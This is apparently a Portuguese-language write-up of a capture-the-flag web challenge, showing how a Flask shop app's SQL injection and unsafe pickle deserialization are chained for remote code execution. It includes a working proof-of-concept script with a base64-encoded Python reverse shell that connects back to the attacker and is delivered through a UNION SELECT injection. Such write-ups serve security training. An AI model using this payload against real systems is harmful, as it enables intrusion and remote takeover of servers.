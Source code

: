 # C. O. P

> O C.O.P (Culto dos Pickles) começou uma loja web para vender sua mercadoria. Acreditamos que os fundos estejam sendo usados para operações ilícitas de propaganda baseadas em pickles! Investigue o site e tente encontrar uma forma de interceptar a operação deles!

A descrição por si só dá uma dica muito importante para a resolução desse desafio.&#x20;

## Reconhecimento

Podemos baixar o código-fonte da aplicação e ver que se trata de uma aplicação web em Python utilizando Flask. Temos apenas dois endpoints, sendo que um trás a listagem dos produtos cadastrados:

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengescopindex.png" alt=""><figcaption><p>C. O. P - Página inicial da aplicação</p></figcaption></figure>

E o outro, `/view/:id` trás informações sobre um produto com base no id informado.

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengescopview.png" alt=""><figcaption><p>C. O. P - Detalhes do produto</p></figcaption></figure>

Podemos começar analisando o código-fonte do último endpoint, visto que ele permite a entrada de dados.

{% code title="application/blueprints/routes.py" overflow="wrap" lineNumbers="true" %}
```python
from flask import Blueprint, render_template
from application.models import shop

web = Blueprint('web', __name__)

...SNIP

@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```
{% endcode %}

Acima está o arquivo que define as rotas da aplicação. Observe que ao acessar a rota `/view`, a aplicação chama uma função `shop.select_by_id`, definida  no arquivo `models`:

{% code title="application/models.py" lineNumbers="true" %}
```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```
{% endcode %}

Perceba que a aplicação está inserindo a entrada do usuário diretamente na query SQL, ou seja, podemos tentar injetar SQL. Ao enviar uma requisição ao endpoint `/view/1'`, a aplicação retorna um erro 500, o que possivelmente indica que a entrada foi injetada na query provocando um erro. Ao consultar `/view/1'--`, a aplicação não retorna erro algum, visto que a consulta foi processada da seguinte forma:

```sql
SELECT data FROM products WHERE id='1'--'
```

Isto é, fazendo uma consulta em produtos a qual o id do produto seja 1 e comentando o restante da query que é inserido pelo back-end. Porém, apenas com esse SQL injection não somos capazes de fazer nada. Vejamos como essa rota é renderizada no template:

<pre class="language-html" data-title="application/templates/item.html" data-overflow="wrap" data-line-numbers><code class="lang-html"><strong>...SNIP
</strong><strong>&#x3C;!-- Product section-->
</strong>&#x3C;section class="py-5">
    &#x3C;div class="container px-4 px-lg-5 my-5">
        &#x3C;div class="row gx-4 gx-lg-5 align-items-center">
            {% set item = product | pickle %} &#x3C;!-- repare nessa linha -->
            &#x3C;div class="col-md-6">&#x3C;img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." />&#x3C;/div>
            &#x3C;div class="col-md-6">
                &#x3C;h1 class="display-5 fw-bolder">{{ item.name }}&#x3C;/h1>
                &#x3C;div class="fs-5 mb-5">
                    &#x3C;span>£{{ item.price }}&#x3C;/span>
                &#x3C;/div>
                &#x3C;p class="lead">{{ item.description }}&#x3C;/p>
            &#x3C;/div>
        &#x3C;/div>
    &#x3C;/div>
&#x3C;/section>
SNIP...
</code></pre>

A instrução na linha destacada está utilizando uma funcionalidade de [filtro do Flask](https://flask.palletsprojects.com/en/2.3.x/templating/#registering-filters) que deve ser definida pela aplicação. A definição desse filtro pode ser encontrada no arquivo `app.py`:

{% code title="app.py" %}
```python
...SNIP
@app.template_filter('pickle')
def pickle_loads(s):
    return pickle.loads(base64.b64decode(s))
SNIP...
```
{% endcode %}

## Exploração

Perceba que o filtro definido é processado por uma função do [pickle](https://docs.python.org/pt-br/3/library/pickle.html), uma biblioteca de serialização do Python. A função é responsável por decodificar a entrada em base64 e então serializar ela através do pickle. Entretanto, buscando sobre essa biblioteca, foi possível [encontrar uma vulnerabilidade](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) nela que permite execução de código remotamente. Para isso, precisamos criar uma classe com o payload da RCE, usar a função `dumps` da biblioteca pickle para desserializar um objeto dessa classe e então passar esse objeto desserializado codificado em base64 para a aplicação.  A partir disso, podemos aproveitar vulnerabilidade de SQL injection para injetar o payload na requisição.

## Prova de Conceito

{% code title="poc.py" lineNumbers="true" %}
```python
import pickle
import requests
from base64 import b64encode, urlsafe_b64encode
import os

host = "http://cop.htb:1337" # troque pelo endereço do host vulnerável

class RCE:
    def __reduce__(self):
        ip = "127.0.0.1" # troque pelo seu endereço
        port = 1337 # troque por uma porta escutando em sua máquina
        reverse_shell = f"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ip}\",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'"
        cmd = (f'echo "{b64encode(reverse_shell.encode()).decode()}" | base64 -d | sh')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE()) # serializando o objeto RCE com o pickle
    response = requests.get(url=f"{host}/view/' UNION SELECT \"{urlsafe_b64encode(pickled).decode()}\"--")
    print(response.text)
```
{% endcode %}

O script acima define uma classe RCE que, quando desserializada pelo pickle na aplicação vulnerável, realiza uma conexão de shell reversa. Dessa forma, podemos serializar um objeto dessa classe e tentar enviar ao endpoint vulnerável da aplicação. Abusando da falha de SQL injection, podemos criar um UNION SELECT com o payload, e ele será desserializado pela aplicação, resultando na conexão reversa à nossa máquina. Agora, com o shell, basta lermos o conteúdo do arquivo `flag.txt` para obter a flag.
